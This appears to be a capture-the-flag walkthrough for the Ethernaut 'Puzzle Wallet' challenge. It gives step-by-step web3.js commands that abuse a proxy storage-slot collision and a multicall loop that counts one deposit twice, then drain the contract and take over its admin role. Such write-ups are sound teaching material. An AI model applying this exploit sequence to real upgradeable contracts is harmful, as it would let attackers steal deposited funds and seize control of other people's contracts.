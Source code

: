 Call proposeNewAdmin on Proxy contract with player address by sending transaction to PuzzleWallet contract
--> updates storage slot 0 on Proxy to player address (owner on PuzzleWallet)

1) web3.eth.abi.encodeFunctionCall({
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [{
        type: 'uint256',
        name: 'myNumber'
    }]
}, [player]);



2) await web3.eth.sendTransaction({from: player, to: instance, data})


3) await contract.addToWhitelist(player)


 Pass multicallData twice into the multicall function to call deposit function twice with same msg.value (increments balance of player to 0.002 ether)

4) depositData = await contract.methods["deposit()"].request().then(v => v.data)

5) multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)

6) await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})


Set contract balance to 0 
7) await contract.execute(player, toWei('0.002'), "0x0")


Call setMaxBalance and pass in player address which updates the admin state variable to player
8) await contract.setMaxBalance(player)






